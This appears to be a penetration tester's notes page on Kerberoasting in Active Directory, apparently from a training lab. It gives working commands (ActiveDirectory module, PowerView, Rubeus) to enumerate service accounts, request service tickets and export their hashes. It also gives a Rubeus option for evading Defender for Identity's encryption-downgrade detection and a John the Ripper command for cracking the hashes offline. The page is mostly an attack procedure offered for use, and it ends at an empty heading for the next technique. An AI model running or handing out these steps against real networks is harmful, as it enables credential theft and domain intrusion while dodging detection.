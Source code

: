 
### Kerberoas

![[Pasted image 20241127223105.png]]

- Offline cracking of service account passwords.
- The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.

**Find user accounts used as Service accounts**

ActiveDirectory module:

~~~
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
~~~

PowerView:

~~~
Get-DomainUser -SPN
~~~

Use Rubeus to list Kerberoast stats:

~~~
Rubeus.exe kerberoast /stats
~~~

Use Rubeus to request a TGS:

~~~
Rubeus.exe kerberoast /user:svcadmin /simple
~~~

To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac)

Look for Kerberoastable accounts that only support RC4_HMAC:

~~~
Rubeus.exe kerberoast /stats /rc4opsec
~~~

~~~
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
~~~

Kerberoast all possible accounts:

~~~
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
~~~

Crack ticket using John the Ripper:

~~~
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
~~~

## Targeted Kerberoasting - AS-REPs
